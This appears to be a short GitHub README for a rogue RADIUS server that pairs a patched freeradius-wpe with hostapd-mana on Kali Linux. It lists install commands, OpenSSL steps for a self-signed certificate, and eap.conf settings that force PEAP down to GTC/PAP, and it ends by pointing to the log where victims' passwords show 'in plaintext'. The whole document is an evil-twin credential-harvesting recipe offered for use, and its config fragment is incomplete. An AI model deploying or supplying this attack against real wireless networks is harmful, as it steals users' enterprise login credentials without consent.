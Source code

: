 # Rogue_Radius_Server
Rogue Radius Server (freeradius patch + hostapd). 

# 1. Install freeradius with patch
How to: https://github.com/brad-anton/freeradius-wpe
# 2. Create hostapd.conf - I use mana-tooklit (Kali linux)
apt-get install mana-toolkit hostapd
# 3. Script for start
start.sh
# Generate certificate and key
sudo openssl genrsa -out "/etc/[webserver]/ssl/private.key" 2048
sudo openssl req -new -key "/etc/[webserver]/ssl/private.key" -out "/etc/[webserver]/ssl/cert.csr"
sudo openssl x509 -req -days 365 -in "/etc/[webserver]/ssl/cert.csr" -signkey "/etc/[webserver]/ssl/private.key" -out "/etc/[webserver]/ssl/cert.crt"

# after that edit eap.conf in /usr/local/etc/raddb:

in eap { 
			default_eap_type = peap
gtc {
			auth_type = PAP
peap {
			default_eap_type = gtc
tls {			path to the certificates
}

# 4. Save and run: radiusd -X
# 5. After that run: hostapd  hostapd-mana-eaponly.conf

# logs: usr/local/var/log/radius# leafpad freeradius-server-wpe.log

Now you can see the password in plaintext
